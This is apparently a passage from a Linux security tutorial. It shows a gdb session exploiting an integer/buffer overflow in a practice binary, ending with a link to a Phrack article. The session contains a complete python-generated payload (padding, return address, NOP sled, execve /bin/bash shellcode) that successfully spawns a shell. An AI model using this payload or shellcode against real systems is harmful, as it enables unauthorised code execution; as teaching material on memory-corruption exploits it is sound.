 ```
$2 = 0x42424242
(gdb) 
$3 = 0x42424242
(gdb) r simba `python -c 'print "A" * 24 + "\xc0\xf4\xff\xbf" +  "\x90" * 188  + "\x31\xc0\x83\xec\x01\x88\x04\x24\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x83\xec\x01\xc6\x04\x24\x2f\x89\xe6\x50\x56\xb0\x0b\x89\xf3\x89\xe1\x31\xd2\xcd\x80\xb0\x01\x31\xdb\xcd\x80"'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/simba/Documents/LinuxSec/vuln simba `python -c 'print "A" * 24 + "\xc0\xf4\xff\xbf" +  "\x90" * 188  + "\x31\xc0\x83\xec\x01\x88\x04\x24\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x83\xec\x01\xc6\x04\x24\x2f\x89\xe6\x50\x56\xb0\x0b\x89\xf3\x89\xe1\x31\xd2\xcd\x80\xb0\x01\x31\xdb\xcd\x80"'`

Breakpoint 1, validate_passwd (
    passwd=0xbffff6e8 'A' <repeats 24 times>"\300, \364\377\277\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...) at intvuln.c:8
8	void validate_passwd(char* passwd) {
(gdb) si
0x0804849f	8	void validate_passwd(char* passwd) {
(gdb) finish
Run till exit from #0  0x0804849f in validate_passwd (
    passwd=0xbffff6e8 'A' <repeats 24 times>"\300, \364\377\277\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...) at intvuln.c:8
Valid Password
process 23164 is executing new program: /bin/bash
```

## 参考文章

[phrack-integerflow](http://phrack.org/issues/60/10.html)